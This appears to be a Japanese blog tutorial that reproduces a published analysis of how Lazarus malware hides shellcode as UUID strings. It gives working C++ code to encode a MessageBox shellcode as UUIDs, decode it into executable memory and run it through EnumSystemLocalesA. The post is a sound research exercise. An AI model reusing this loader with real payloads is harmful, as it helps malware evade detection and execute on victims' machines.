 ```yaml
---
title: Let's try how to execute Lazarus shellcode
date: 2021-01-27 18:05:00 +09:00
categories: [Windows, Malware]
tags: [Malware, Lazarus]
---
```


twitterを漁っていたら、[RIFT: Analysing a Lazarus Shellcode Execution Method](https://research.nccgroup.com/2021/01/23/rift-analysing-a-lazarus-shellcode-execution-method/)の記事を見つけたので実際に試してみます。

この記事ではLazarusというマルウェアが難読化のためにShellcodeをUUIDの文字列として持っていて、[UuidFromStringA](https://docs.microsoft.com/ja-jp/windows/win32/api/rpcdce/nf-rpcdce-uuidfromstringa)関数を使ってShellcodeに戻すという流れです。

今回使う元コードはダイナミックにPayloadを生成してくれるコードです。
```cpp
#include <Windows.h>

#include <iostream>
using namespace std;

unsigned char Payload[] = {
   0x48, 0x83, 0xec, 0x28,
   0x48, 0x83, 0xe4, 0xf0,
   0x48, 0xc7, 0xc1, 0x00, 0x00, 0x00,0x00,
   0x49, 0xb8, 0x12, 0x12, 0x12, 0x12, 0x12,
   0x12, 0x12, 0x12,
   0x48, 0xba, 0x23, 0x23, 0x23, 0x23, 0x23,
   0x23, 0x23, 0x23,
   0x45, 0x33, 0xc9,
   0x48, 0xb8, 0x34, 0x34, 0x34, 0x34, 0x34,
   0x34, 0x34, 0x34,
   0xff, 0xd0,
   0x48, 0xc7, 0xc1, 0x00, 0x00, 0x00, 0x00,
   0x48, 0xb8, 0x45, 0x45, 0x45, 0x45, 0x45,
   0x45, 0x45, 0x45,
   0xff, 0xd0,
   'I', 'n', 'j', 'e', 'c', 't', 0x00,
};

int main() {
	LPVOID PayloadAddress{ nullptr };
	HANDLE hThread{ 0 };

	PayloadAddress = VirtualAlloc(nullptr, sizeof(Payload), MEM_COMMIT, PAGE_EXECUTE_READWRITE);

	*((ULONGLONG*)&Payload[0x11]) = (ULONGLONG)PayloadAddress + 0x45;
	*((ULONGLONG*)&Payload[0x1b]) = (ULONGLONG)PayloadAddress + 0x45;
	*((ULONGLONG*)&Payload[0x28]) = (ULONGLONG)GetProcAddress(LoadLibraryA("user32"), "MessageBoxA");
	*((ULONGLONG*)&Payload[0x3b]) = (ULONGLONG)GetProcAddress(GetModuleHandleA("ntdll"), "RtlExitUserThread");

	memcpy(PayloadAddress, Payload, sizeof(Payload));

	hThread = CreateRemoteThread(GetCurrentProcess(), nullptr, 0, (LPTHREAD_START_ROUTINE)PayloadAddress, nullptr, NULL, nullptr);

	WaitForSingleObject(hThread, INFINITE);
	CloseHandle(hThread);
}
```

# UUID
まず、UUIDとはどんな感じなのかを[wiki](https://ja.wikipedia.org/wiki/UUID)で調べます。
すると、下記のようなことが書かれています。
```
UUID（Universally Unique Identifier）とは、ソフトウェア上でオブジェクトを一意に識別するための識別子である。UUIDは128ビットの数値だが、16進法による550e8400-e29b-41d4-a716-446655440000というような文字列による表現が使われることが多い。元来は分散システム上で統制なしに作成できる識別子として設計されており、したがって将来にわたって重複や偶然の一致が起こらないという前提で用いることができる[1]。マイクロソフトによるGUIDは、UUIDの実装の1つと見なせる。
```
この文章からわかることは、`11223344-5566-7788-99aa-bbccddeeff00` 的な感じだということです。
今回はそれだけで十分です。

# Make payload & Execution Method
## Simple code
[UuidFromStringA](https://docs.microsoft.com/ja-jp/windows/win32/api/rpcdce/nf-rpcdce-uuidfromstringa)関数がどのように変換しているのかをもう少し理解するために、[UuidFromStringA](https://docs.microsoft.com/ja-jp/windows/win32/api/rpcdce/nf-rpcdce-uuidfromstringa)関数とは逆の処理をする[UuidToString](https://docs.microsoft.com/ja-jp/windows/win32/api/rpcdce/nf-rpcdce-uuidtostring)関数も用いて見ていきます。

試しに下記のようなコードを作ってみました。
```cpp
#include <Windows.h>
#include <rpc.h>

#include <iostream>
using namespace std;

#pragma comment(lib, "Rpcrt4.lib")

int main() {
  BYTE Uuid[] = {
		0x11, 0x22, 0x33, 0x44, 0x55, 0x66, 0x77, 0x88,
		0x99, 0xaa, 0xbb, 0xcc, 0xdd, 0xee, 0xff, 0x00
	};
	RPC_CSTR StringUuid;

	UuidToStringA((const UUID*)Uuid, &StringUuid);
	cout << "[*] String: " << StringUuid << endl;

	DWORD_PTR hptr = (DWORD_PTR)HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, sizeof(Uuid));

	UuidFromStringA(StringUuid, (UUID*)hptr);

	printf("[*] Hexdump: ");
	for (int i = 0; i < 16; i++) {
		printf("%02X ", ((unsigned char*)hptr)[i]);
	}
}
```
1. Uuidという配列に上記のような文字列で初期化します。
1. [UuidToString](https://docs.microsoft.com/ja-jp/windows/win32/api/rpcdce/nf-rpcdce-uuidtostring)関数でbinaryからUUIDの文字列へと変換します。
1. UUIDの文字列を出力します。
1. [UuidFromStringA](https://docs.microsoft.com/ja-jp/windows/win32/api/rpcdce/nf-rpcdce-uuidfromstringa)でUUIDの文字列からbinaryに戻します。
1. それを出力します。

出力結果は下記のようになります。
```
[*] String: 44332211-6655-8877-99aa-bbccddeeff00
[*] Hexdump: 11 22 33 44 55 66 77 88 99 AA BB CC DD EE FF 00
```

この結果は地味に面白くて、始めの4bytesと2bytesと2bytesはリトルエンディアンされていて、残りはビッグエンディアンになっています。

## Obfuscated code
実際に難読化コードの作成します。
```cpp
#include <Windows.h>
#include <rpc.h>

#include <iostream>
using namespace std;

#pragma comment(lib, "Rpcrt4.lib")

unsigned char Payload[] = {
   0x48, 0x83, 0xec, 0x28,
   0x48, 0x83, 0xe4, 0xf0,
   0x48, 0xc7, 0xc1, 0x00, 0x00, 0x00,0x00,
   0x49, 0xb8, 0x12, 0x12, 0x12, 0x12, 0x12,
   0x12, 0x12, 0x12,
   0x48, 0xba, 0x23, 0x23, 0x23, 0x23, 0x23,
   0x23, 0x23, 0x23,
   0x45, 0x33, 0xc9,
   0x48, 0xb8, 0x34, 0x34, 0x34, 0x34, 0x34,
   0x34, 0x34, 0x34,
   0xff, 0xd0,
   0x48, 0xc7, 0xc1, 0x00, 0x00, 0x00, 0x00,
   0x48, 0xb8, 0x45, 0x45, 0x45, 0x45, 0x45,
   0x45, 0x45, 0x45,
   0xff, 0xd0,
   'I', 'n', 'j', 'e', 'c', 't', 0x00,
};

int main() {
	RPC_CSTR StringUuid;
	RPC_STATUS err;

	for (int i = 0; i < sizeof(Payload); i += 16) {
		err = UuidToStringA((const UUID*)(Payload + i), &StringUuid);
		if (err == RPC_S_OUT_OF_MEMORY)
			break;

		cout << StringUuid << endl;
	}
}
```

これを実行すると下記のようになります。
```
28ec8348-8348-f0e4-48c7-c10000000049
121212b8-1212-1212-1248-ba2323232323
45232323-c933-b848-3434-343434343434
c748d0ff-00c1-0000-0048-b84545454545
ff454545-49d0-6a6e-6563-740000000000
```

## Decode & Execute
これでやっとPayloadのデコードと実行コードをができます。
```cpp
#include <Windows.h>
#include <rpc.h>

#include <iostream>
using namespace std;

#pragma comment(lib, "Rpcrt4.lib")

const char* uuids[] = {
	"28ec8348-8348-f0e4-48c7-c10000000049",
	"121212b8-1212-1212-1248-ba2323232323",
	"45232323-c933-b848-3434-343434343434",
	"c748d0ff-00c1-0000-0048-b84545454545",
	"ff454545-49d0-6a6e-6563-740000000000",
};

int main() {
    int elems = sizeof(uuids) / sizeof(uuids[0]);
    LPVOID va{ nullptr };
    va = VirtualAlloc(nullptr, ((sizeof(uuids[0]) / 2) * elems), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    DWORD_PTR hptr{ (DWORD_PTR)va };
    PBYTE bv{ (PBYTE)va };
    HANDLE hThread{ 0 };
    RPC_STATUS status{ RPC_S_OUT_OF_MEMORY };

    for (int i{ 0 }; i < elems; i++) {
        status = UuidFromStringA((RPC_CSTR)uuids[i], (UUID*)hptr);
        if (status != RPC_S_OK) 
            return -1;

        hptr += 16;
    }

    *((ULONGLONG*)&bv[0x11]) = (ULONGLONG)va + 0x45;
    *((ULONGLONG*)&bv[0x1b]) = (ULONGLONG)va + 0x45;
    *((ULONGLONG*)&bv[0x28]) = (ULONGLONG)GetProcAddress(LoadLibraryA("user32"), "MessageBoxA");
    *((ULONGLONG*)&bv[0x3b]) = (ULONGLONG)GetProcAddress(GetModuleHandleA("ntdll"), "RtlExitUserThread");

    EnumSystemLocalesA((LOCALE_ENUMPROCA)va, 0);

    return 0;
}
```

これを実行するとMessageBoxがポップアップされます。


# Reference
[RIFT: Analysing a Lazarus Shellcode Execution Method](https://research.nccgroup.com/2021/01/23/rift-analysing-a-lazarus-shellcode-execution-method/)
[UUID - Wikipedia](https://ja.wikipedia.org/wiki/UUID)